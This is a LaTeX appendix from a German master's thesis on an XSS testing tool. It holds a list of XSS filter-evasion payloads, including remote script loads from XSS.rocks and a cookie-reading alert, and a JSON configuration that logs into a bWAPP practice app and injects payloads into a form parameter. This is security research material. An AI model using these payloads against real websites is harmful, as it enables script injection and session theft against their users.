\chapter{Verwendete Werkzeuge}

Die hier vorliegende Masterarbeit und die dazugehörige Implementierung wurde mit folgenden Programmen und Programmiersprachen erstellt:

\begin{description}
	\item[Programmiersprache] Python 3 (Windows)
	\item[\acs{IDE}] JetBrains PyCharm Professional 2017.2
	\item[Technische Dokumentation] Sphinx\footnote{\url{http://www.sphinx-doc.org/}}
	\item[Diagramme] DrawIO\footnote{\url{https://www.draw.io/}}
	\item[Webdriver] Firefox / GeckoDriver\footnote{\url{https://github.com/mozilla/geckodriver/releases/tag/v0.19.0}}
\end{description}

Die technische Dokumentation kann im SmartGrazer-Unterverzeichnis \textbf{``doc''} mittels eines Makefile generiert und mit der Datei \textbf{``doc/build/html/index.html''} eingesehen werden. 

\chapter{Quellcode}

\begin{lstlisting}[caption={Verwendete Payloads des XSS Filter Evasion Cheat Sheet},label=lst:payload-list]
<a onmouseover="alert(1)">XSS</a>
<img src="javascript:alert('XSS');">
<img """><script>alert(1)</script>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<img src=# onmouseover="alert(1)">
<img src= onmouseover="alert(1)">
<img src=/ onerror="alert(1)"></img>
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099 #0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108& #0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083& #0000083&#0000039&#0000041">
<IMG SRC="jav	ascript:alert(1);">
<SCRIPT/XSS SRC="http://XSS.rocks/XSS.js"></SCRIPT>
<<SCRIPT>alert("XSS");//<</SCRIPT>
<SCRIPT SRC=http://XSS.rocks/XSS.js?< B >
\";alert('XSS');//
</script><script>alert('XSS');</script>
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<BODY BACKGROUND="javascript:alert('XSS')">
<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
<BODY ONLOAD=alert('XSS')> <BODY ONLOAD =alert('XSS')>
<BR SIZE="&{alert('XSS')}">
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<IMG STYLE="XSS:expr/*XSS*/ession(alert('XSS'))">
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");} </STYLE><A CLASS=XSS></A>
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")} </STYLE>
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
<TABLE BACKGROUND="javascript:alert('XSS')">
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="width: expression(alert('XSS'));">
\end{lstlisting}

\newpage

\begin{lstlisting}[caption={Vollständiges Beispiel einer SUT-Konfigurationsdatei},label=lst:full-sut-config]
{
  "runconfig": {
  "valid": {
    "precondition": {
      "target": "https://aborgardt.com/master/bWAPP/login.php",
      "params": {
        "post": {
          "login": "bee",
          "password": "bug",
          "security_level": 0,
          "form": "submit"
        }
      }
    },
    "action": {
      "filesuffix": "valid",
      "target": "https://aborgardt.com/master/bWAPP/XSS_get.php",
        "params": {
          "get": {
            "firstname": "PAYLOAD",
            "lastname": "smartgrazer"
          }
        }
      },
      "PAYLOAD": "#smartgrazer"
    },
    "attack": {
      "precondition": {
        "target": "https://aborgardt.com/master/bWAPP/login.php",
        "params": {
          "post": {
            "login": "bee",
            "password": "bug",
            "security_level": 0,
            "form": "submit"
          }
        }
      },
      "action": {
        "filesuffix": "payload",
        "target": "https://aborgardt.com/master/bWAPP/XSS_get.php",
        "params": {
          "get": {
            "firstname": "PAYLOAD",
            "lastname": "smartgrazer"
          }
        }
      }
    }
  }
}
\end{lstlisting}

\newpage
\chapter{Abbildungen}

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/PolyglottFullExample}
	\caption{XSS-Polyglott: Funktion des Payloads in allen abgedeckten Kontexten}
	\label{fig:PolyglottFullExample}
\end{figure}

\begin{figure}[htbp] 
	\centering
	
\includegraphics[width=\textwidth]{contents/images/SmartGrazerWorkflowPhases}
	\caption{Ablaufdiagramm: SmartGrazer mit gewähltem -x Parameter}
	\label{fig:SmartGrazerWorkflowPhases}
\end{figure}